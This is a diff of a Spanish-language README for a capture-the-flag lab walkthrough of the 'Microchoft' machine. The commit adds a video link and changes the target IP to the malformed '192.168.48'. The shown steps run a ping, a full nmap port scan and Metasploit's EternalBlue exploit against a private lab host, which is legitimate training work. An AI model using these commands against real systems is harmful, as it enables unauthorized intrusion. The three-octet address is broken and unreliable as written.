

Before and after one commit to kaleth4/THEHACKERLABS, a Markdown page: MICROCHOFT/README.md, 3 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/MICROCHOFT/README.md
+++ b/MICROCHOFT/README.md
@@ -4,7 +4,7 @@
 A continuación, se describe la guía de resolución de la máquina de **The Hackers Labs** denominada *"Microchoft"*.
 
 Esta máquina está catalogada con la dificultad **"Principiante"** y sus autores son **condor** y **CuriosidadesDeHackers**.
-
+https://youtu.be/lSUQq255I-s?si=VA0BCk5vfyJVz1cI
 ---
 
 ## ⚠️ ATENCIÓN
@@ -18,7 +18,7 @@ Las herramientas y técnicas utilizadas en la resolución de este laboratorio ha
 Se inicia el reconocimiento mediante un `ping` a la máquina para detectar su accesibilidad y el sistema operativo mediante el **TTL** asignado.
 
 ```bash
-ping -c 1 192.168.150.133
+ping -c 1 192.168.48
 ```
 
 Se comprueba que el **TTL es 128**, lo que indica:
@@ -31,7 +31,7 @@ Se comprueba que el **TTL es 128**, lo que indica:
 
 ### 1. Escaneo de todos los puertos TCP (SYN)
 ```bash
-sudo nmap -sS -p- --min-rate 1000 -n -Pn 192.168.150.133 -oN allPorts
+sudo nmap -sS -p- --min-rate 1000 -n -Pn 192.168.48 -oN allPorts
 ```
 
 ### 2. Reconocimiento de servicios en puertos abiertos
@@ -78,7 +78,7 @@ Se configura y ejecuta el exploit **EternalBlue** para obtener una sesión **Met
 msfconsole
 msf> search eternalblue
 msf> use exploit/windows/smb/ms17_010_eternalblue
-msf> set RHOSTS 192.168.150.133
+msf> set RHOSTS 192.168.48
 msf> options
 msf> run
 ```
````
